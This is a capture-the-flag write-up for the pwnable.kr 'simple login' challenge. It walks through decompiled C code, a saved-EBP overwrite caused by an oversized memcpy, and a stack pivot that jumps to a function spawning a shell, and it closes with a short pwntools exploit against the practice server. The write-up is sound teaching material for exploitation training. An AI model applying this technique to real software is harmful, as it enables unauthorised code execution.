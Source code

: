# simple login

## Description

simple login - 50 pt

> Can you get authentication from this server? <br><br>
> Download : http://pwnable.kr/bin/login <br><br>
> Running at : nc pwnable.kr 9003


## Solution

### Understanding the binary

As stated in the description, we are given a binary file. Let's start by checking what kind of file it is:

```bash
$ file login
login: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=e09ec7145440153c4b3dedc3c7a8e328d9be6b55, not stripped
```

Nothing special here, it's a 32-bit ELF executable. Here is the decompilation provided by IDA:

**main:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-3Ch]
  int v5; // [esp+18h] [ebp-28h] BYREF
  _BYTE v6[30]; // [esp+1Eh] [ebp-22h] BYREF
  unsigned int v7; // [esp+3Ch] [ebp-4h]

  memset(v6, 0, sizeof(v6));
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ", v4);
  _isoc99_scanf("%30s", v6);
  memset(&input, 0, 12);
  v5 = 0;
  v7 = Base64Decode(v6, &v5);
  if ( v7 > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v5, v7);
    if ( auth(v7) == 1 )
      correct();
  }
  return 0;
}
```

**auth:**
```c
BOOL __cdecl auth(int a1)
{
  char v2[8]; // [esp+14h] [ebp-14h] BYREF
  const char *v3; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h] BYREF

  memcpy(&v4, &input, a1);
  v3 = (const char *)calc_md5(v2, 12);
  printf("hash : %s\n", v3);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", v3) == 0;
}
```

**correct:**
```c
void __noreturn correct()
{
  if ( input == -559038737 )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```

So, the program reads 30 bytes from the user and decodes them from base64, and initializes `input` to 0. Then, if the length of the decoded string is less or equal to 12 bytes, it copies it to `input` and calls the `auth` function. 

The `auth` function copies the `input` to a local variable, and then calls the `calc_md5` function on it. It then compares the result to the string `f87cd601aa7fedca99018a8be88eda34`. If the comparison is successful, it calls the `correct` function.

The `correct` function checks if `input` is equal to `-559038737`. If it is, it prints the flag and calls `system("/bin/sh")`.

### Exploit

Note that when `input` is copied a local variable using `memcpy`, the program copies 12 bytes into a 4 byte long variable. Debugging with gdb, it appears that the local variable is 8 bytes above the pushed ebp on the stack - which means that it'll overwritten with the last 4 bytes of `input`.

You surely ask "Okay, how does modifying the saved ebp help us?". Well, consider if the saved ebp points somewhere where the address of  `correct` is saved. When the program will return to main, and the `leave` instruction will be executed, then esp will too point to the address of `correct`. Thus, when the `ret` instruction will be executed, the program will jump to the `correct` function. 

It's important to note that after moving ebp to esp, `leave` also pops the saved ebp from the stack - causing esp to be incremented by 4, and so we technically need to make rbp point to the 4 bytes behind the address of `correct`.

We can achieve this by making `input` look like this:

```
| 0xdeadbeef | address of correct | ptr to last cell minus 4 |
                    ^                         |
                    |_________________________|
```

### Exploit code

```python
from pwn import *

'''
0x0804925f: correct
0x0811eb44: 5th byte of input
'''
payload = p32(0xdeadbeef) + p32(0x0804925f) + p32(0x0811eb44 - 4) 

conn = remote('pwnable.kr', 9003)
conn.sendline(base64.b64encode(payload)) # don't forget to encode the payload!
conn.interactive()
```

```
control EBP, control ESP, control EIP, control the world~
```

Wise words, indeed.